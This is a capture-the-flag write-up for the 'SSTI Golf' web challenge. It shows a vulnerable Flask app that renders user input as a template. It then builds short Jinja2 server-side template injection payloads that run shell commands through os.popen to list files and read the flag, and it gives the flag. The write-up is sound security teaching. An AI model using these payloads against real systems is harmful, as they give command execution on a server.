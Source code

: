 ## Challenge Name: SSTI Golf
Category: Web  
Points: 100  
Solves: 223  

Challenge Description:  
__Just in case you didn't get enough golf with the other challenge.  
Flag is in an arbitrarily named file, but in the same directory.__  

Link: http://sstigolf.chal.imaginaryctf.org

### Approach

The website displayed python flask source code.
```
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 48:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```  

It says that the site would render anything you put into the `query` parameter in the `ssti` directory.  
As the challenge name suggests, this strng rendering can cause Server Side Template Injection.  
You'll have to put the payload like this.  
`/ssti?query=<payload>`
I tested a bsic Flask/Jinja2 SSTI payload to see if they'll work.  
`{{config}}`  
It worked and returned me the config variables.  

![ssti](https://github.com/0xL30N3/Writeups/blob/main/Images/sstigolf.png)  
Next step is to try and write a payload that'll return me the flag.  
`{{lipsum.__globals__.os.popen('ls').read()}}`  
You can also use `url_for` instead of `lipsum` but lipsum is shorter and we have a word limit of 48.  
`os.popen()` runs system commands in python.  
We can see an interesting file named `truly_an_arbitrarily_named_file` if we ran the payload.  
We will now try to read the file.  
You can use `cat truly_an_arbitrarily_named_file` but the word limit will be exceeded.  
So, you can either delcare `truly_an_arbitrarily_named_file` as a config variable  
Or you can use `cat t*`.  
I chose the latter because it's less work and shorter.
So, our final payload is gonna be :  
`{{lipsum.__globals__.os.popen('cat t*').read()}}`  

__Flag:  `ictf{F!1+3r5s!?}`__
